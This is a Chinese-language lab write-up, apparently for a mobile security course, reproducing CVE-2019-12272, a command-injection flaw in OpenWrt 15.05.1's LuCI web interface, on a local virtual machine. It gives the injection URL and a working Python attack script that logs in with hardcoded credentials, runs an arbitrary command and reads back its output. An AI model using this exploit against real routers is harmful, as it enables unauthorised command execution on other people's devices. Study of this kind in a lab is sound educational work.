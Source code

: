 # CVE-2019-12272漏洞复现

## 实验环境

+ OpenWrt15.05.1

+ Chrome 浏览器开发者工具

+ Python

## 实验过程

### 环境搭建

+ 下载安装存在该漏洞的 `OpenWrt` [镜像版本](https://archive.openwrt.org/chaos_calmer/15.05.1/x86/64/openwrt-15.05.1-x86-64-combined-ext4.img.gz)。

+ 参考[第一章实验 OpenWrt on VirtualBox](https://c4pr1c3.github.io/cuc-mis/chap0x01/exp.html#openwrt-on-virtualbox) 的方法进行安装。

+ 安装成功

  ![SuccessInstall](images/SuccessInstall.PNG)

+ 设置进行远程管理的的IP地址为 `192.168.56.22`

  ![IP](images/IP.PNG)

### 漏洞复现

+ 先使用管理员账号登录 `LuCI` ，再使用浏览器访问 `http://192.168.56.22/cgi-bin/luci/admin/status/realtime/bandwidth_status/eth0$(ifconfig%3ecmd.txt)` 触发漏洞。

+ 再访问 `http://192.168.56.22/cmd.txt` 获取上一步命令执行的结果。

  ![cmd.txt](images/cmd.PNG)

### 漏洞利用

+ 通过 `Chrome` 浏览器开发者工具的「Copy as curl」功能，将漏洞复现请求复制为 `curl` 命令。

  ![Copy as curl](images/CopyAsCurl.PNG)

+ 通过第三方网站 [将 curl 命令转换为 Python requests 代码](https://curl.trillworks.com/) ，再稍加改动添加继续访问 /cmd.txt 并打印服务器响应，得到示例如下：

  ```bash
  import requests

  cookies = {
    'sysauth': 'e5ec6a4422695d0ae1b82df8225b319d',
  }

  headers = {
      'Proxy-Connection': 'keep-alive',
      'Cache-Control': 'max-age=0',
      'Upgrade-Insecure-Requests': '1',
      'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/90.0.4430.72 Safari/537.36',
      'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9',
      'Accept-Language': 'zh-CN,zh;q=0.9',
  }

  response = requests.get('http://192.168.56.22/cgi-bin/luci/admin/status/realtime/bandwidth_status/eth0%5E$(ifconfig%5E%%5E3ecmd.txt)', headers=headers, cookies=cookies, verify=False)

  # added by human
  if response.status_code == 200:
      response = requests.get('http://192.168.56.3/cmd.txt')
      print(response.text)
  else:
      print("exp failed")
  ```

+ 使用 `VS Code` 运行结果如下：

  ![result](images/result.PNG)

### 编写攻击脚本

+ 参考[黄大视频](https://www.bilibili.com/video/BV1rr4y1A7nz?p=100)中的代码修修改改为[Attack.py](script/Attack.py), 代码如下：

  ```bash
  import requests
  from urllib.parse import urlparse
  import sys

  class CVE_2019_12272:
      def __init__(self, host = '192.168.56.22'):
          self.host = host
          self.stok = ''
          self.cmd = ''
          self.luci_username = 'root'
          self.luci_password = '123456789'
          self.sysauth = '24a291bfb814f167de7eeb086effd969'
          self.cookies = ''
          self.headers = {
              'Connection': 'keep-alive',
              'Pragma': 'no-cache',
              'Cache-Control': 'no-cache',
              'Upgrade-Insecure-Requests': '1',
              'Origin': self.host,
              'Content-Type': 'application/x-www-form-urlencoded',
              'User-Agent': 'Mozilla/5.0 (Linux; Android 6.0; Nexus 5 Build/MRA58N) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/90.0.4430.212 Mobile Safari/537.36',
              'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9',
              'Referer': 'http://192.168.56.22/cgi-bin/luci',
              'Accept-Language': 'en,zh-CN;q=0.9,zh;q=0.8,en-US;q=0.7',
          }
        
      def login(self):
          data = {
          'luci_username': self.luci_username,
          'luci_password': self.luci_password
          }
          url = 'http://{host}/cgi-bin/luci'.format(host = self.host)
          response = requests.post(url, headers=self.headers, data=data, verify=False, allow_redirects=False)
          self.cookies = response.cookies
          Location = response.headers['Location']
          self.stok = urlparse(Location).params

      def shell(self, cmd = 'ifconfig'):
          self.cmd = cmd + '%3ecmd.txt'
          url = 'http://{host}/cgi-bin/luci/;{stok}/admin/status/realtime/bandwidth_status/eth0$({cmd})'.format(host = self.host, cmd = self.cmd, stok = self.stok)
          headers = {
              'Connection': 'keep-alive',
              'Pragma': 'no-cache',
              'Cache-Control': 'no-cache',
              'Upgrade-Insecure-Requests': '1',
              'User-Agent': 'Mozilla/5.0 (Linux; Android 6.0; Nexus 5 Build/MRA58N) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/90.0.4430.212 Mobile Safari/537.36',
              'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9',
              'Accept-Language': 'en,zh-CN;q=0.9,zh;q=0.8,en-US;q=0.7',
          }
          response = requests.get(url, headers=headers, cookies=self.cookies, verify=False)

      def view(self):
          url = 'http://{host}/cmd.txt'.format(host = self.host)
          response = requests.get(url, headers=self.headers)
          print(response.text)

  if __name__ == '__main__':
      test = CVE_2019_12272()
      test.login()
      test.shell(sys.argv[1])
      test.view()
  ```

+ 攻击效果如下图所示：

  ![](images/Attack.PNG)
## 参考资料

+ [第四章 移动通信安全概述](https://c4pr1c3.github.io/cuc-mis/chap0x04/cve-2019-12272.html)

+ [CVE-2019-12272 EXP 编写从零开始](https://www.bilibili.com/video/BV1rr4y1A7nz?p=100)